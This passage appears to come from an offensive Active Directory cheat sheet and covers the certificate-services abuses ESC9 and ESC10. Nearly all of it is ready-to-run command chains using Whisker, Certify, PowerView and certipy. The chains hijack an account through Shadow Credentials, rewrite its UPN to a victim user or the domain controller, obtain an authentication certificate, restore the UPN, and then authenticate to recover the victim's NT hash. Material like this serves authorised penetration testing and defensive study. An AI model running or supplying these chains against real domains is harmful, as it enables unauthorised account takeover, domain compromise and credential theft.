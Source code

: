 **ESC10 - Case 2**

Here, **user1** has `GenericWrite` against **user2** and want to compromise the domain controller **DC$@contoso.local**.

```powershell
#Retrieve user2 creds via Shadow Credentials
Whisker.exe add /target:"user2" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
#Change user2 UPN to DC$@contoso.local
Set-DomainObject user2 -Set @{'userPrincipalName'='DC$@contoso.local'} -Verbose
#Request authentication certif with user2
Certify.exe request /ca:'contoso\ca' /template:"User"
#user2 UPN change back
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@contoso.local'} -Verbose
```

Now, authentication with the obtained certificate will be performed through Schannel. It can be used to perform, for example, an RBCD.

#### Linux

**ESC9**

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**. **user2** is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

```bash
#Retrieve user2 creds via Shadow Credentials
certipy shadow auto -username 'user1@contoso.local' -p 'password' -account user2
#Change user2 UPN to user3
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user3
#Request vulnerable certif with user2
certipy req -username 'user2@contoso.local' -hash 'hash_value' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template'
#user2 UPN change back
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user2@contoso.local
#Authenticate with the certif and obtain user3 hash during UnPac the hash
certipy auth -pfx 'user3.pfx' -domain 'contoso.local'
```

**ESC10 - Case 1**

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**.

```bash
#Retrieve user2 creds via Shadow Credentials
certipy shadow auto -username 'user1@contoso.local' -p 'password' -account user2
#Change user2 UPN to user3
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user3
#Request authentication certif with user2
certipy req -username 'user2@contoso.local' -hash 'hash_value' -ca 'ca_name' -template 'User'
#user2 UPN change back
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user2@contoso.local
#Authenticate with the certif and obtain user3 hash during UnPac the hash
certipy auth -pfx 'user3.pfx' -domain 'contoso.local'
```
